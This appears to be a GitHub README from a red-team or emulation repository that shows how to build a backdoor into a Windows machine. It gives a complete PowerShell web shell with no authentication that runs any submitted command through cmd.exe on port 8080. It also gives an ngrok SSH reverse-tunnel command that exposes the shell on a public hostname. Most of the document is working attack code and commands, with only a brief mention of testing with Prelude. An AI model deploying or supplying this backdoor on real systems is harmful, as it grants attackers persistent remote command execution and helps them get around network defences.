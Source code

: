 ### Create a Web Shell back Door, Connect Over Ngrok SSH Gateway.

[Ngrok SSH Gateway](https://ngrok.com/docs#ssh-gateway)

### Create Your SSH Keys On Windows.  Upload Your Keys to ngrok

```
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (C:\Users\mobile/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in C:\Users\mobile/.ssh/id_rsa.
Your public key has been saved in C:\Users\mobile/.ssh/id_rsa.pub.
```

![Screen Shot 2021-06-25 at 8 42 53 PM](https://user-images.githubusercontent.com/83469949/123499713-efb12580-d5f5-11eb-8c84-6caa656e36f1.png)

### Execute Simple Web Shell - Works best as Admin.

```
<#
  .SYNOPSIS
  
  Simple Web Shell over HTTP
  
#>

$Server = '127.0.0.1' #Listening IP. Change This. Or make it a parameter, I don't care ;-)

function Receive-Request {
   param(      
      $Request
   )
   $output = ""
   $size = $Request.ContentLength64 + 1   
   $buffer = New-Object byte[] $size
   do {
      $count = $Request.InputStream.Read($buffer, 0, $size)
      $output += $Request.ContentEncoding.GetString($buffer, 0, $count)
   } until($count -lt $size)
   $Request.InputStream.Close()
   $cmd = $output.Split("=")
   $OutputVariable = &{ cmd.exe /c $cmd[1].Split("+") | Out-String}
   return $OutputVariable
}

$listener = New-Object System.Net.HttpListener
$listener.Prefixes.Add('http://+:8080/') 

$listener.Start()
'Listening ...'
while ($true) {
    $context = $listener.GetContext() # blocks until request is received
    $request = $context.Request
    $response = $context.Response
	$hostip = $request.RemoteEndPoint
	
	if ($request.Url -match '/shellPost$' -and ($request.HttpMethod -eq "POST") ) { 
		
		$message = Receive-Request($request);
		
	}
    if ($request.Url -match '/shell$' -and ($request.HttpMethod -eq "GET")) {
		$enc = [system.Text.Encoding]::UTF8
		$response.ContentType = 'text/html'
		$shellcode = '<form action="/shellPost" method="POST" >
					  Command:<br>
					  <input type="text" name="Command" value="ipconfig.exe"><br>
					  <input type="submit" value="Submit">
					</form>'
		
		$buffer = $enc.GetBytes($shellcode)		
		$response.ContentLength64 = $buffer.length
		$output = $response.OutputStream
		$output.Write($buffer, 0, $buffer.length)
		$output.Close()
		continue
	}
    

    [byte[]] $buffer = [System.Text.Encoding]::UTF8.GetBytes($message)
    $response.ContentLength64 = $buffer.length
    $output = $response.OutputStream
    $output.Write($buffer, 0, $buffer.length)
    $output.Close()
}

$listener.Stop()
```

Note the local port your Web Shell is listening to is 8080.  

### Create your ngrok tunnel To expose the local web shell externally.

`ssh -R webshell.ngrok.io:80:localhost:8080 tunnel.us.ngrok.com http`

### Connect to webshell.ngrok.io/shell

![Screen Shot 2021-06-25 at 8 46 08 PM](https://user-images.githubusercontent.com/83469949/123499793-68b07d00-d5f6-11eb-9401-8ec32bf22b4b.png)

### Now recreate this activity , and delivery and test with Prelude.

### Advantage of this is you don't require the ngrok binary locally. SSH is native to windows.




